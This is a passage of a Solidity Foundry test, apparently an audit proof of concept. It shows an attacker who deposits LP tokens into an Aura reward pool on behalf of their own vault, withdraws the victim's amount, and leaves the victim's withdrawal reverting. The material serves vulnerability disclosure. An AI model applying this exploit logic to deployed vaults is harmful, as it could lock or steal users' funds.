 ```solidity
      assertGt(auraRewardPool.balanceOf(address(userVault)), auraRewardPool.balanceOf(address(victimVault)));

      // attacker then withdraws from user vault
      uint256[] memory minAmountsOut = new uint256[](2);
      userVault.withdraw(victimLpAmt, minAmountsOut, true);

      // 3. victim is unable to withdraw
      vm.stopPrank();
      vm.expectRevert(BLVaultManagerLido.BLManagerLido_InvalidLpAmount.selector);
      vm.prank(victim);
      victimVault.withdraw(victimLpAmt, minAmountsOut, true);
  }

  function _depositInPoolWithVaultAsReceiver(uint256 ohmAmount_, uint256 wstethAmount_) internal {
      // Build join pool request
      address[] memory assets = new address[](2);
      assets[0] = address(ohm);
      assets[1] = address(wsteth);

      uint256[] memory maxAmountsIn = new uint256[](2);
      maxAmountsIn[0] = ohmAmount_;
      maxAmountsIn[1] = wstethAmount_;

      JoinPoolRequest memory joinPoolRequest = JoinPoolRequest({
          assets: assets,
          maxAmountsIn: maxAmountsIn,
          userData: abi.encode(1, maxAmountsIn, 0),
          fromInternalBalance: false
      });

      // Join balancer pool
      ohm.approve(address(balVault), ohmAmount_);
      wsteth.approve(address(balVault), wstethAmount_);
      balVault.joinPool(IBasePool(address(liquidityPool)).getPoolId(), user, user, joinPoolRequest);

      // Join aura pool
      liquidityPool.approve(address(auraRewardPool), type(uint256).max);
      auraRewardPool.deposit(liquidityPool.balanceOf(user), address(userVault));
  }

  function configureDependencies() external returns (Keycode[] memory dependencies) {}

  function requestPermissions() external view returns (Permissions[] memory requests) {
     Keycode ROLES_KEYCODE = toKeycode("ROLES");

      requests = new Permissions[](2);
      requests[0] = Permissions(ROLES_KEYCODE, rolesAdmin.saveRole.selector);
      requests[1] = Permissions(ROLES_KEYCODE, rolesAdmin.removeRole.selector);
  }
}
```
